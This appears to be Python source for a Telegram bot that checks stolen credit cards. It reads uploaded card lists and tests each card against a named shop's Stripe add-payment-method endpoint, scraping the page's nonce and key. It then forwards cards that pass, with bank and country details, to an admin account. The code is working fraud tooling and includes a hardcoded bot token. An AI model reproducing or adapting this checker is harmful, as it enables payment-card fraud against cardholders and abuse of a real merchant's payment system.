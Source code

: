 import requests
from user_agent import generate_user_agent
import re
from colorama import Fore
import pyfiglet

RESET = "\033[0m"
ASCII_FONTS = pyfiglet.figlet_format("E R R O R", font="ansi_shadow")
width = 200
height = 10

centered_ascii = "\n".join(line.center(width) for line in ASCII_FONTS.splitlines())

lines_needed = (height - centered_ascii.count("\n")) // 2
vertical_padding = "\n" * lines_needed

my_id = "-1002469657522"
print(Fore.RED + vertical_padding + centered_ascii + vertical_padding + RESET)
import telebot,os
us = generate_user_agent()
import uuid
gu = uuid.uuid4()
mu = uuid.uuid4()
si = uuid.uuid4()
admin = '5133630165'
tok = '7823213811:AAHXLPi8PiDweZolIIpHi8MX6my9YJ4zHNs'
bot = telebot.TeleBot(tok)

headers = {
        'user-agent': us,
    }

response = requests.get('https://shop.wiseacrebrew.com/account/add-payment-method/', headers=headers)

def lookup_bin(bin):
    import requests
    api_url = requests.get("https://bins.antipublic.cc/bins/" + str(bin),timeout=30).json()
    return api_url
def return_info(api_url):
    if 'Invalid BIN' in api_url or 'detail' in api_url:
        return False
    brand = api_url["brand"]
    card_type = api_url["type"]
    level = api_url["level"]
    bank = api_url["bank"]
    country_name = api_url["country_name"]
    country_flag = api_url["country_flag"]
    bin = api_url['bin']
    c_c = api_url['country']
    info = f"""
𝘽𝙞𝙣 : {bin}
𝙄𝙣𝙛𝙤 : {brand}-{card_type}-{level}
𝘽𝙖𝙣𝙠  : {bank}
𝘾𝙤𝙪𝙣𝙩𝙧𝙮 : {country_name} {country_flag} - {c_c}
"""
    return info
nonce = re.search(r'"createAndConfirmSetupIntentNonce":"(.*?)"', response.text).group(1)

key = re.search(r'"key":"(.*?)"', response.text).group(1)


def chk(card):
    cc,mm,yy,cv = card.split("|")
    import requests
    headers = {
        'accept': 'application/json',
        'accept-language': 'en-US,en;q=0.9,ja-JP;q=0.8,ja;q=0.7,ar-DZ;q=0.6,ar;q=0.5,en-IN;q=0.4',
        'content-type': 'application/x-www-form-urlencoded',
        'origin': 'https://js.stripe.com',
        'priority': 'u=1, i',
        'referer': 'https://js.stripe.com/',
        'sec-ch-ua': '"Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"',
        'sec-ch-ua-mobile': '?0',
        'sec-ch-ua-platform': '"Windows"',
        'sec-fetch-dest': 'empty',
        'sec-fetch-mode': 'cors',
        'sec-fetch-site': 'same-site',
        'user-agent': us,
    }

    data = f'type=card&card[number]={cc}&card[cvc]={cv}&card[exp_year]={yy}&card[exp_month]={mm}&allow_redisplay=unspecified&billing_details[address][country]=DZ&pasted_fields=number%2Ccvc&payment_user_agent=stripe.js%2F946d9f95b9%3B+stripe-js-v3%2F946d9f95b9%3B+payment-element%3B+deferred-intent&referrer=https%3A%2F%2Fshop.wiseacrebrew.com&time_on_page=89767&client_attribution_metadata[client_session_id]=b8dc727a-0f17-4903-8977-9c4784d522f9&client_attribution_metadata[merchant_integration_source]=elements&client_attribution_metadata[merchant_integration_subtype]=payment-element&client_attribution_metadata[merchant_integration_version]=2021&client_attribution_metadata[payment_intent_creation_flow]=deferred&client_attribution_metadata[payment_method_selection_flow]=merchant_specified&guid={gu}&muid={mu}&sid={si}&key={key}&_stripe_version=2024-06-20'

    response = requests.post('https://api.stripe.com/v1/payment_methods', headers=headers, data=data)

    try:
        idd = response.json()['id']
    except:
        print(Fore.RED + 'visa is bad ')

    import requests


    headers = {
        'accept': '*/*',
        'accept-language': 'ar-EG,ar;q=0.9,en-GB;q=0.8,en;q=0.7,ar-AE;q=0.6,en-US;q=0.5',
        'content-type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'origin': 'https://shop.wiseacrebrew.com',
        'priority': 'u=1, i',
        'referer': 'https://shop.wiseacrebrew.com/account/add-payment-method/',
        'sec-ch-ua': '"Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"',
        'sec-ch-ua-mobile': '?0',
        'sec-ch-ua-platform': '"Windows"',
        'sec-fetch-dest': 'empty',
        'sec-fetch-mode': 'cors',
        'sec-fetch-site': 'same-origin',
        'user-agent': us,
        'x-requested-with': 'XMLHttpRequest',
    }

    params = {
        'wc-ajax': 'wc_stripe_create_and_confirm_setup_intent',
    }

    data = {
        'action': 'create_and_confirm_setup_intent',
        'wc-stripe-payment-method': idd,
        'wc-stripe-payment-type': 'card',
        '_ajax_nonce': nonce,
    }

    response = requests.post('https://shop.wiseacrebrew.com/', params=params, headers=headers, data=data)
    try:
        res = response.json()
    except:
        res = 'bad'
    return response.json()

@bot.message_handler(content_types=['document'])
def chk_compo(message):
    finfo = bot.get_file(message.document.file_id)
    downlod = bot.download_file(finfo.file_path)
    path = os.path.join("files", message.document.file_name)
    with open(path, "wb") as compo:
        compo.write(downlod)
    file = open(path, encoding="utf-8")
    bot.reply_to(message,'checking your compo please wait.....')
    for line in file:
        visa = line.strip()
        api = lookup_bin(visa[:6])
        res = chk(visa)
        if res['success'] != True:
            if 'declined.' in res['data']['error']['message']:
                print(Fore.RED + f'DECLINED - {visa}')
            elif 'does not support' in res['data']['error']['message']:
                print(Fore.RED + f'DECLINED - {visa}')
            elif 'card number is incorrect.' in res['data']['error']['message']:
                print(Fore.RED + f'INCORRECT - {visa}')
            elif "card's security code" in res['data']['error']['message']:
                print(Fore.GREEN + f'APPROVED : CVV - {visa}')
                mess = f'''
𝐀𝐩𝐩𝐫𝐨𝐯𝐞𝐝 ✅

𝒄𝒄 : {visa}
𝒓𝒆𝒔𝒑𝒐𝒏𝒔𝒆 : CVV INCORRECT
𝒈𝒂𝒕𝒆 : 𝖘𝖙𝖗𝖎𝖕𝖊 𝖆𝖚𝖙𝖍 
{return_info(api)}
𝗕𝗬 𝗘𝗥𝗥𝗢𝗥'''
                bot.send_message(admin,mess)
            elif "funds." in res['data']['error']['message']:
                print(Fore.GREEN + f'APPROVED : FUNDS - {visa}')
                mess = f'''
𝐀𝐩𝐩𝐫𝐨𝐯𝐞𝐝 ✅

𝒄𝒄 : {visa}
𝒓𝒆𝒔𝒑𝒐𝒏𝒔𝒆 : insuffeint funds
𝒈𝒂𝒕𝒆 : 𝖘𝖙𝖗𝖎𝖕𝖊 𝖆𝖚𝖙𝖍 
{return_info(api)}
𝗕𝗬 𝗘𝗥𝗥𝗢𝗥'''
                bot.send_message(admin,mess)
            else:
                print(Fore.YELLOW + visa + str(res))
        else:
            print(Fore.GREEN + f'DONE ADD YOUR CARD - APPROVED / {visa}')
            mess = f'''
𝐀𝐩𝐩𝐫𝐨𝐯𝐞𝐝 ✅

𝒄𝒄 : {visa}
𝒓𝒆𝒔𝒑𝒐𝒏𝒔𝒆 : Approved
𝒈𝒂𝒕𝒆 : 𝖘𝖙𝖗𝖎𝖕𝖊 𝖆𝖚𝖙𝖍 
{return_info(api)}
𝗕𝗬 𝗘𝗥𝗥𝗢𝗥'''
            bot.send_message(admin,mess)

bot.infinity_polling(timeout=25)


# احفظ حقوقي @ERROR_3MK

